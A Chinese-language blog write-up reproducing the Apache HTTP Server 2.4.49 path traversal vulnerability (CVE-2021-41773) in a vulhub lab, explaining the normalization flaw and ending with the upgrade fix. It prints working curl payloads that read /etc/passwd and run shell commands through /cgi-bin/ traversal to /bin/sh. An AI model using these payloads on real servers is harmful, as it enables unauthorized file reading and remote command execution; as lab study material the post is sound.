


# Apache Http Server 路径穿越漏洞复现（CVE-2021-41773） - GoPoux - 博客园

> 原文：[`www.cnblogs.com/syc233/p/17477732.html`](https://www.cnblogs.com/syc233/p/17477732.html)

# Apache Http Server 路径穿越漏洞复现

## Apache Http Server 路径穿越漏洞概述

### Apache Http Server 简介

Apache HTTP Server（简称 Apache）是 Apache 软件基金会的一个开放源码的网页服务器软件，可以在大多数电脑操作系统中运行。由于其跨平台和安全性，被广泛使用，是最流行的 Web 服务器软件之一。它快速、可靠并且可通过简单的 API 扩展，将 Perl／Python 等解释器编译到服务器中。

Httpd（即 HTTP Daemon ，超文本传输协议守护程序的简称）是一款运行于网页服务器后台，等待传入服务器请求的软件。HTTP 守护程序能自动回应服务器请求，并使用 HTTP 协议传送超文本及多媒体内容。

### CVE-2021-41773

CVE-2021-41773 是一个影响 Apache HTTP Server (httpd) 的安全漏洞，影响版本为 2.4.49 版本。它是一个路径遍历漏洞，如果文档根目录以外的文件不受 `require all denied` 保护，则攻击者可以访问这些文件。

同时，若 Apache HTTPd 开启了 cgi 支持，攻击者可构造恶意请求执行命令，控制服务器。

### 漏洞影响

*   Apache Http Server 2.4.49 引入。
*   Apache Http Server 2.4.50 未完全修复（CVE-2021-42013）。

## Apache Http Server 路径穿越漏洞原理

在 Apache HTTP Server 2.4.49 版本中，在对用户发送的请求中的路径参数进行规范化时，其使用的 `ap_normalize_path` 函数会对路径参数先进行 url 解码，然后判断是否存在 `../` 的路径穿越符。

当检测到路径中存在 `%` 字符时，若其紧跟的两个字符是十六进制字符，则程序会对其进行 url 解码，将其转换成标准字符，如 `%2e` 会被转换为 `.` 。若转换后的标准字符为 `.` ，此时程序会立即判断其后两字符是否为 `./` ，从而判断是否存在未经允许的 `../` 路径穿越行为。

如果路径中存在 `%2e./` 形式，程序就会检测到路径穿越符。然而，当出现 `.%2e/` 或 `%2e%2e/` 形式，程序就不会将其检测为路径穿越符。原因是遍历到第一个 `.` 字符时，程序检测到其后两字符为 `%2` 而不是 `./` ，就不会将其判断为 `../` 。因此，攻击者可以使用 `.%2e/` 或 `%2e%2e/` 绕过程序对路径穿越符的检测，从而读取位于 Apache 服务器 web 目录以外的其他文件，或者读取 web 目录中的脚本文件源码，或者在开启了 cgi 或 cgid 的服务器上执行任意命令。

## Apache Http Server 路径穿越漏洞复现

下面利用 vulhub 开源漏洞靶场搭建漏洞环境，通过使用攻击机遍历靶机文件并且远程执行命令复现这一漏洞。

### 搭建 Apache 服务器

登入作为靶机的虚拟机。

执行命令 `ip a` ，获取靶机 ip 为 `10.0.2.15` 。

下载 vulhub 后，执行以下命令搭建 docker 环境。

```
cd vulhub/httpd/CVE-2021-41773
sudo docker-compose up -d 
```

显示


表明搭建完成。执行命令 `sudo docker ps` 可以查看正在运行的 docker ：


搭建完成后，使用浏览器访问 `http://10.0.2.15:8080/` ，即可看到 Apache 默认 `It works!` 页面：


则 Apache 服务器搭建完成。

### 复现攻击

登入作为攻击机的虚拟机。

#### 遍历文件

执行命令

```
curl -v --path-as-is http://10.0.2.15:8080/icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd 
```

可见，成功读取到 `/etc/passwd` ：



在靶机中访问此文件，确认攻击机成功读取到 `passwd` ：


#### 远程执行命令

在攻击机中执行命令

```
curl -v --data "echo;id" 'http://10.0.2.15:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' 
```

可见，成功执行 `id` 命令：



通过远程执行命令，访问 `/etc/passwd`

```
curl -v --data "echo;cd /etc && cat passwd" 
                               \ 'http://10.0.2.15:8080/cgi-bin/.%2e/.%2e/.%2e/.%2e/bin/sh' 
```

成功读取到 `passwd` ：


## Apache Http Server 路径穿越漏洞修复

升级到 Apache HTTP Server 2.4.51 及以上版本。

## Reference

[1] Apache HTTP 服务器 - 维基百科，自由的百科全书 (wikipedia.org) ，[`zh.wikipedia.org/wiki/Apache_HTTP_Server`](https://zh.wikipedia.org/wiki/Apache_HTTP_Server)

[2] Apache HTTP Server 2.4.49 中的路径遍历和文件泄露漏洞 (CVE-2021-41773)，[`www.bilibili.com/video/BV1dU4y1f7x1`](https://www.bilibili.com/video/BV1dU4y1f7x1)

[3] Apache HTTP Server 2.4.49 路径穿越漏洞（CVE-2021-41773），[`github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md`](https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-41773/README.zh-cn.md)

[4] Apache 2.4.49 (CVE-2021-41773) 、 2.4.50 (CVE-2021-42013) 检测工具 (qq.com)，[`mp.weixin.qq.com/s?__biz=MzkxNDEwMDA4Mw==&mid=2247488695&idx=1&sn=93cc8e0b903e073b2ec5f56baae05c8c`](https://mp.weixin.qq.com/s?__biz=MzkxNDEwMDA4Mw==&mid=2247488695&idx=1&sn=93cc8e0b903e073b2ec5f56baae05c8c)

[5] Apache HTTP Server 2.4 vulnerabilities - The Apache HTTP Server Project，[`httpd.apache.org/security/vulnerabilities_24.html`](https://httpd.apache.org/security/vulnerabilities_24.html)

[6] 【漏洞通告】Apache HTTPd 2.4.49 路径穿越与命令执行漏洞（CVE-2021-41773） (aliyun.com)，[`help.aliyun.com/noticelist/articleid/1060919610.html`](https://help.aliyun.com/noticelist/articleid/1060919610.html)